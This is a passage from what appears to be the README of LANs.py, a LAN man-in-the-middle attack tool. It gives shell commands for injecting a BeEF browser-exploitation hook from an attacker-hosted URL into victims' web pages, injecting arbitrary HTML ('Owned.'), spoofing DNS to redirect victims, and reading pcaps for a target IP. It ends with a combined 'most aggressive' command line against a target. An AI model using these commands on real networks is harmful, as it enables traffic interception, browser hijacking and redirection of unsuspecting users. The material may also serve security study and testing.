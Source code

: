 -ip: target this IP address

Easy to remember and will probably be the most common usage of the script: options u, d, p, like udp/tcp.


### HTML injection:

``` shell
python LANs.py -b http://192.168.0.5:3000/hook.js
```

Inject a BeEF hook URL (http://beefproject.com/, tutorial: http://resources.infosecinstitute.com/beef-part-1/) into pages the victim visits.


``` shell
python LANs.py -c '<title>Owned.</title>'
```

Inject arbitrary HTML into pages the victim visits. First tries to inject it after the first `<head>` and failing that injects prior to the first `</head>`. This example will change the page title to 'Owned.'


### Read from pcap:

``` shell
python LANs.py -pcap libpcapfilename -ip 192.168.0.10
```

To read from a pcap file you must include the target's IP address with the -ip option. It must also be in libpcap form which is the most common anyway. One advantage of reading from a pcap file is that you do not need to be root to execute the script.


### DNS spoofing
``` shell
python LANs.py -a -r 80.87.128.67
```
``` shell
python LANs.py -dns eff.org
```
Example 1: The -a option will spoof every single DNS request the victim makes and when used in conjuction with -r it will redirect them to -r's argument address. The victim will be redirected to stallman.org (80.87.128.67) no matter what they type in the address bar.  
Example 2: This will spoof the domain eff.org and subdomains of eff.org. When there is no -r argument present with the -a or -dns arguments the script will default to sending the victim to the attacker's IP address. If the victim tries to go to eff.org they will be redirected to the attacker's IP.

### Most aggressive usage:

``` shell
python LANs.py -v -d -p -n -na -set -a -r 80.87.128.67 -c '<title>Owned.</title>' -b http://192.168.0.5:3000/hook.js -ip 192.168.0.10
```


### All options:
